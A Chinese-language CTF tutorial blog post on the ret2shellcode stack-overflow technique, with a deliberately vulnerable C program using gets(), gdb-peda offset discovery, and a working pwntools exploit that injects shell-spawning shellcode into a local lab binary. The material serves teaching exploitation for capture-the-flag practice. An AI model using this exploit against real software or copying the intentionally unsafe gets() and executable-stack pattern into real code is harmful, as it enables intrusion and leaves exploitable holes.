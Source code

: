 ```yaml
---
title: ret2shellcode攻击技术示例
time: 2017-08-03
tags: [CTF, pwn, stackoverflow]
layout: post
categories: posts
---
```


# 什么是ret2shellcode？

ret2shellcode 即 return to shellcode，跟ret2text类似，但是众所周知，在大多数程序中并没有像system("/bin/sh")这样可以直接利用的代码，因此，在没有可以直接利用的代码片段时，我们可以尝试输入一段shellcode，然后向返回地址写入shellcode地址，那么当程序返回时，就可以跳转到shellcode继续执行。

由于shellcode是在buf缓冲区里被执行，因此我们需要保证程序没有开启NX(No executable)保护，我们可以在gcc编译时添加*-z execstack*选项来关闭该保护。

# ret2shellcode示例代码

``` c
//gcc -m32 -fno-stack-protector -z execstack ret2shellcode.c -o ret2shellcode
#include <stdio.h>
#include <string.h>

char buf2[100];

int main(void)
{
    setvbuf(stdout, 0LL, 2, 0LL);
    setvbuf(stdin, 0LL, 1, 0LL);

    char buf[100];

    printf("No system for you this time !!!\n");
    gets(buf);
    strncpy(buf2, buf, 100);
    printf("bye bye ~");

    return 0;
}
```

本节示例的漏洞也可以从此处下载：[ret2shellcode](/files/ret2shellcode)

# 漏洞分析

如源码所示，这次程序依旧使用了不安全的函数gets()接受用户输入。另外在pwntools中已经为我们提供了可用的shellcode，如下：
``` python
shellcode = asm(shellcraft.sh())
```

我的利用方法也和ret2text类似，不过这次我们需要修改的返回地址变成了shellcode的地址，而这次定位返回地址，我们换个花样 :）

首先用gdb挂起程序后，我们使用peda的辅助功能pattern_create生成一系列的字符串，然后将其输入进buf中，因为过长的字符串会导致程序栈溢出，函数会停在返回地址处报错（因为访问了一个错误的地址），因此我们就可以直观地知道返回地址被哪个地方的哪个字符串覆盖了，从而知道buf首地址到返回地址之间的偏移。

``` bash
gdb-peda$ pattern_create 120
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAA'
```
因为buf是100，因此我生成了长120的字符串保证栈溢出。接下来我们运行程序后输入这串字符

``` bash
gdb-peda$ run
Starting program: /home/vancir/Downloads/example/ret2shellcode/ret2shellcode
No system for you this time !!!
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAA
bye bye ~
Program received signal SIGSEGV, Segmentation fault.
```
这里我们输入了过长字符串，因此程序提示Segmentation fault，这时我们再看程序的EIP
``` bash
EIP: 0x41384141 ('AA8A')
```
这时的EIP的值为0x41384141，也就是在返回地址上，因为访问了一个错误的地址，所以停了下来。这时我们只需要查询0x41384141('AA8A')在我们之前生成的串中的偏移

``` bash
gdb-peda$ pattern_offset  0x41384141
1094205761 found at offset: 112
```
得到偏移为112

接下来我们再得到buf的首地址(因为我们的shellcode会先输入到buf中执行)，调试的时候在gets(buf)的传参时候可以得到buf的地址，因此我们可以很简单地知道buf的地址为*0x804a080*。

那么我们进行攻击所需要的所有要素都已经收集完成啦

# 攻击代码

``` python
from pwn import *
shellcode = asm(shellcraft.sh())
buf_addr = 0x804a080
payload = ''
payload += shellcode.ljust(112,'A')
payload += p32(buf_addr)
io = process('ret2shellcode')
io.sendline(payload)
io.interactive()
```
